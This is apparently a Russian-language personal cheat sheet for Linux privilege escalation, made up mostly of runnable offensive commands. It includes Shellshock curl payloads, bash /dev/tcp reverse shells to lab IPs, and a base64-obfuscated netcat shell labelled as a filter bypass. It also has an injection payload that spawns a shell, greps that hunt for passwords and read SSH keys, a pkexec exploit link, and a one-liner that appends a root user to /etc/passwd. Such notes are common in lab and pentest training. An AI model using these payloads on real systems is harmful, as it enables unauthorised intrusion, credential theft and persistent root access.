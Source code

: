 # Скрипты повышения привелегий 

        https://github.com/rebootuser/LinEnum

        https://github.com/rebootuser/LinEnum.git

        https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

        wget https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh | sh

# enumeration

дистрибутив;

        cat /etc/issue
        cat /etc/*-release

версия ядра и разрядность;
       
        cat /proc/version
        uname -a

сетевые интерфейсы, порты, службы;
        
        netstat
        ss -tulpn

процессы
       
        ps aux
        ps -ef
        pspy64 (Надо скачивать)

        https://github.com/DominicBreuker/pspy

        wget https://github.com/DominicBreuker/pspy/releases/download/v1.0.0/pspy64s       

Файлы, которые стоит проверить

        /home/user/.bash_history
        /home/user/password.txt
        /home/user/.history
        /home/user/.mysql_history
        /home/user/.ssh/id_rsa

# Разрешенные пермишены

        Sudo -l

        getcap -r / 2>/dev/null


        
curl -H "User-Agent: () { :;}; echo; /bin/sudo -l" http://10.8.0.10/cgi-bin/shell.sh

curl -H "User-Agent: () { :; }; echo; /bin/bash -i >& /dev/tcp/10.8.0.4/1234 0>&1" http://10.8.0.10/cgi-bin/shell.sh


http://localhost.com/?name=#{'%20`bash -c "bash -i >& /dev/tcp/10.10.14.61/4242 0>&1"`'}

bash -c "bash -i >& /dev/tcp/10.10.14.50/4444 0>&1"

/bin/bash -c 'bash -i >& /dev/tcp/192.168.50.123/4444 0>&1'

echo "system(\"bash -c 'bash -i >& /dev/tcp/10.10.14.50/4444 0>&1'\")" > file.plt

echo bmMgMTkyLjE2OC41MC4xMjMgNDQ0NCAtZSAvYmluL2Jhc2gK | base64 -d | bash   (обход фильтрации)



https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php   (Лучший PHP)

https://www.revshells.com/


# Повысить до tty интелектуальной оболочки командой 

python3 -c 'import pty; pty.spawn("/bin/bash")'

export TERM=xterm

/bin/bash -p - это команда запуска интерпретатора командной строки Bash с флагом -p, который означает "privileged mode" (привилегированный режим).

# Найти файлы владельцем которого является группа

        find / -group bugtracker 2>/dev/null

# Найти файлы владельцем которого является пользователь
        find / -type f -user emily 2>/dev/null
# Найти все файлы с пермишеном S

        find / -user root -perm -4000 -exec ls -ldb {} \;

        find / -user root -perm -u=s -type f 2>/dev/null

        find / -perm -u=s 2>/dev/null
# найти файл по имени

        find / -name "mysql*"

# ПОИСК ПАРОЛЕЙ

        cat * | grep -i passw*

        grep -r "passw".

        grep -rni 'enter_network' (поиск везде от текущей)

        for i in $(grep -oP "('.*?')" -R . --no-filename);do x=$(echo -n $i | ent| grep Entropy| awk '{print $3}' ); echo "$x $i"; done | sort -n

(поиск всего, заключенного в  '   ' особенно для паролей с применением ентропии)

        grep -E '[A-Z]{1,9}[-_][a-z]{1,9}' -R .




# pkexec EXPLOIT

Как понять, подвержены ли ваши дистрибутивы уязвимости pkexec:

whereis pkexec

which pkexec

ls -la /usr/bin/pkexec

find / -type f -name pkexec

poc - https://github.com/arthepsy/CVE-2021-4034

# Полезные комманды Линукс

        https://putty.org.ru/articles/unix-linux-ref

# открыть gui 
        open .

# Добавление пользователя с правами root в /etc/passwd

        echo "boot:$(openssl passwd -6 -salt boot password123):0:0:boot:/root:/bin/bash" >> /etc/passwd
